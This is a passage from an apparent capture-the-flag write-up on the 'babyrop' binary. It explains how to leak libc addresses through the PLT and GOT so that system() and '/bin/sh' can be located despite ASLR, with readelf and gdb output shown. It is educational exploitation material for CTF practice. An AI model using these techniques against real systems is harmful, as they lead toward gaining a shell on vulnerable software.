 ```
```
This now means that base address of *libc* is different, and the locations of `system()` function and the */bin/sh* string are in different addresses, and not so easy to find. Note, however, that `system()` and */bin/sh* will always be at the same offset from the base address.

We need to look in the Procedure Linkage Table (PLT) for any functions contained in *libc* that we can use to get us a pointer. The PLT is a statically located (provided Position Independent Execution is disabled as we saw when we ran `checksec`) section of the binary that has placeholders for external functions that can be resolved by the dynamic linker at runtime. As these refer to functions in *libc*, at runtime we can get an address from those functions. The functions will then be at a fixed offset in *libc*, so we can calculate the base address of *libc* and find the location of the `system()` function for our final payload.

We can see what functions are in the PLT with:
```
$ readelf --relocs babyrop

Relocation section '.rela.dyn' at offset 0x478 contains 4 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000403fe0  000100000006 R_X86_64_GLOB_DAT 0000000000000000 _ITM_deregisterTMClone + 0
000000403fe8  000300000006 R_X86_64_GLOB_DAT 0000000000000000 __libc_start_main@GLIBC_2.2.5 + 0
000000403ff0  000400000006 R_X86_64_GLOB_DAT 0000000000000000 __gmon_start__ + 0
000000403ff8  000600000006 R_X86_64_GLOB_DAT 0000000000000000 _ITM_registerTMCloneTa + 0

Relocation section '.rela.plt' at offset 0x4d8 contains 2 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000404018  000200000007 R_X86_64_JUMP_SLO 0000000000000000 write@GLIBC_2.2.5 + 0
000000404020  000500000007 R_X86_64_JUMP_SLO 0000000000000000 gets@GLIBC_2.2.5 + 0
```
We can see that there are two interesting *libc* functions in the PLT (in the Relocation section *.rela.plt*) - `write()` and `gets()`. We want to use `write()` as it has been used by the time we stop the program (`p.recvuntil("Your name:")`) so we can be sure it has the correct address set up.

During the running of the program, the entries in the Global Offset Table (GOT) are updated to point initially to the binary's PLT entry, and then the actual address of the *libc* function once the function is used.

We can look at this in *gdb*. When we start the binary in *gdb*, there is no real code in the `write()` function:
```
gdb-peda$ disas write
Dump of assembler code for function write@plt:
   0x0000000000401030 <+0>:     jmp    QWORD PTR [rip+0x2fe2]        # 0x404018 <write@got.plt>
   0x0000000000401036 <+6>:     push   0x0
   0x000000000040103b <+11>:    jmp    0x401020
End of assembler dump.
```
We can also see the the GOT doesn't point at the *libc* library entry yet, either. We can see this by looking at the address given in the comment to the first line of the `write()` stub function - 0x404018:
```
gdb-peda$ x/x 0x404018
0x404018 <write@got.plt>:       0x0000000000401036
```
We can see this currently points back at the PLT entry (the second location in that stub). Now if we move the program forward to after the `write()` has been called, we can see that everything has been resolved:
```
gdb-peda$ x/x 0x404018
0x404018 <write@got.plt>:       0x00007fffff6c11d0
gdb-peda$ disas write
Dump of assembler code for function __GI___libc_write:
   0x00007fffff6c11d0 <+0>:     endbr64
   0x00007fffff6c11d4 <+4>:     mov    eax,DWORD PTR fs:0x18
   0x00007fffff6c11dc <+12>:    test   eax,eax
   0x00007fffff6c11de <+14>:    jne    0x7fffff6c11f0 <__GI___libc_write+32>
```